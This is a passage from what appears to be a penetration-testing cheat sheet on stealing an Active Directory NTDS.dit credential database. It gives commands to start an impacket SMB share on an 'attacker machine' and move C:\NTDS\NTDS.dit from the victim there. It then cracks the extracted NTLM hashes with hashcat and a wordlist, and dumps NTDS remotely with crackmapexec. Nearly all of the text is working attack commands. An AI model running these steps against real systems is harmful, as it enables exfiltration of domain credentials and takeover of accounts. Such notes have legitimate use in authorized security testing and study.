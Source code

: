 [Launch smbserver in our attacker machine](smbserver.md):

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/
```

Now, from PS in the victim's windows machine:

```powershell
# Transfer the file to attacker machine
cmd.exe /c move C:\NTDS\NTDS.dit \\$ip\CompData
```

And... crack the hash with [hashcat](hashcat.md):

```bash
sudo hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt
```


#### Dumpins ntds.dit remotely

```bash
crackmapexec smb $ip -u <username> -p <password> --ntds
```